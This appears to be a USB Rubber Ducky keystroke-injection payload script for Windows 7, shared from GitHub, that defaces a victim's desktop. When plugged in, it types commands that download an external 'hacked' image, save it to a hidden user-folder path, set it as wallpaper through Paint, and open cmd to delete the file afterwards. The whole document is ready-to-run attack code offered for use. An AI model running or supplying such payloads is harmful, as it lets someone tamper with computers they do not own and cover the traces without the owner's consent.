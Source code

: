 REM Title: duckywall
REM Author: jaeger
REM Version: 1.0.0
REM Date: 20181019
REM Category: ducky payload
REM Target: Windows 7 
REM Dependencies: Chrome or Firefox as default browser; Internet access to download image
REM Description: Updated version of a classic Ducky script
REM		-corrects minor command errors on other GitHub versions
REM		-creates longer delay to allow time for slow browser launch and file server connection 
REM		-works regardless of default application used to open png files
REM		-add delays between some steps that were causing various failures in Win7
REM		-saves image to a non-visible path (%userprofile% rather than desktop)
REM		-deletes saved image before exiting

DELAY 1000
GUI r
DELAY 500
REM next line  works with Firefox or Chrome as default browser; buggy when IE is default 
STRING https://blog.threatpress.com/wp-content/uploads/2018/01/hacked-910x485.png
ENTER
REM Next delay will need to vary 1000-8000 based on time needed to open browser and get image
DELAY 7000
REM Next portion saves the image to the user's folder
CTRL s
DELAY 500
STRING %userprofile%\wallpaper-x
ENTER
DELAY 500
REM Next portion closes browser
ALT f
DELAY 200
STRING X
DELAY 200
GUI d 
REM Next portion opens image in Microsoft Paint and saves it as new desktop wallpaper
REM Paint was selected because various default image apps require different commands or steps
DELAY 500
GUI r
DELAY 500
STRING C:\Windows\system32\mspaint.exe %userprofile%\wallpaper-x.png
DELAY 500
ENTER
DELAY 500
ALT F
DELAY 500
STRING B
DELAY 500
ALT F
DELAY 500
STRING X
REM Next portion deletes the saved image file for easier clean-up for testing or restoration
DELAY 500
GUI r
DELAY 500
STRING cmd 
ENTER
DELAY 500
STRING del %userprofile%\wallpaper-x.png
DELAY 200
ENTER
STRING exit
DELAY 200
ENTER
REM Eternal props to Hak5!